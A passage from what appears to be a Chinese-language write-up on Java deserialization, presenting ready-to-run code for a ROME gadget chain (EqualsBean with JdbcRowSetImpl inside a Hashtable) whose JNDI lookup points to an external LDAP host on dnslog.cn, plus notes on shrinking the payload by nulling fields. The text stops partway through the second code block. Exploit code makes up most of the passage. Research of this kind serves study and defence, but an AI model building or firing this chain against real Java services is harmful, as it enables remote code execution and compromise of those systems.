 直接给出payload：


```java
public static void setFieldValue(Object object, String fieldName, Object value) {
        try {
            Field field = object.getClass().getDeclaredField(fieldName);
            field.setAccessible(true);
            field.set(object, value);
        } catch (Exception e) {
            e.printStackTrace();
        }
    }

    public static void main(String[] args) throws Exception {
        JdbcRowSetImpl jdbcRowSet = new JdbcRowSetImpl();
        jdbcRowSet.setDataSourceName("ldap://uegm8s.dnslog.cn/a");
        jdbcRowSet.setMatchColumn(new String[]{"a"});
        EqualsBean bean = new EqualsBean(String.class, "s");

        HashMap map1 = new HashMap();
        HashMap map2 = new HashMap();
        map1.put("yy", bean);
        map1.put("zZ", jdbcRowSet);
        map2.put("zZ", bean);
        map2.put("yy", jdbcRowSet);
        Hashtable table = new Hashtable();
        table.put(map1, "1");
        table.put(map2, "2");
        setFieldValue(bean, "_beanClass", JdbcRowSetImpl.class);
        setFieldValue(bean, "_obj", jdbcRowSet);

        ByteArrayOutputStream baos = new ByteArrayOutputStream();
        ObjectOutputStream objectOutputStream = new ObjectOutputStream(baos);
        objectOutputStream.writeObject(table);
        System.out.println(new String(baos.toByteArray()).length());
        // 反序列化
        ObjectInputStream ois = new ObjectInputStream(new ByteArrayInputStream(baos.toByteArray()));
        ois.readObject();
    }
```

这个我们还是可以继续缩小payload：(利用其他人的思路)

新链2长度很大的原因是因为 `JdbcRowSetImpl` 这个类的对象太大了，方法巨多，本来优化的思路是用ASM把没用的属性和方法全部扬了，但是这个类的类加载器是 `BootStrap` ，位于双亲委派的最顶层，所以修改过后的字节码没办法再次加载。

另一个优化思路是把没用的属性全部改为null，但是要注意不能影响sink的最终执行结果，所以这里要对照 `pds[]` 中 getter 方法的顺序选择对应的属性进行修改：

```java
public static void setFieldValue(Object object, String fieldName, Object value) {
        try {
            Field field = object.getClass().getDeclaredField(fieldName);
            field.setAccessible(true);
            field.set(object, value);
        } catch (Exception e) {
            e.printStackTrace();
        }
    }

    public static void main(String[] args) throws Exception {
        JdbcRowSetImpl jdbcRowSet = new JdbcRowSetImpl();
        jdbcRowSet.setDataSourceName("ldap://uegm8s.dnslog.cn/a");
        jdbcRowSet.setMatchColumn(new String[]{"a"});
        clear(jdbcRowSet);
        EqualsBean bean = new EqualsBean(String.class, "s");
```